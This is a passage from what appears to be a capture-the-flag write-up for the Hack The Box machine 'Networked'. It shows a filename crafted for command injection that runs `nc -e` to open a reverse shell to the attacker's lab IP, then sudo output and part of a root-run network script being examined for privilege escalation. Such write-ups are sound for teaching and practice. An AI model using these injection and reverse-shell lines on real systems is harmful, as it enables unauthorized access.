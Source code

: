 I would need to create a filename like `; nc -e /bin/bash 10.10.14.11 5555` but forward slashes are not valid in a filename so I will use `$(which bash)` instead to return the full path to bash.

![](/assets/images/htb-writeup-networked/escalate1.png)

A few moments later I get a shell as `guly` and I get the first flag:

![](/assets/images/htb-writeup-networked/escalate2.png)

## Privesc

The path to root is pretty obvious since there's a sudo entry for `changename.sh`

```console
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
```

The shell script requests a few variable from stdin, adds those to `/etc/sysconfig/network-scripts/ifcfg-guly` and then `ifup` is invoked to bring up the interface. There's a regex filter in place to filter special characters.

```sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
```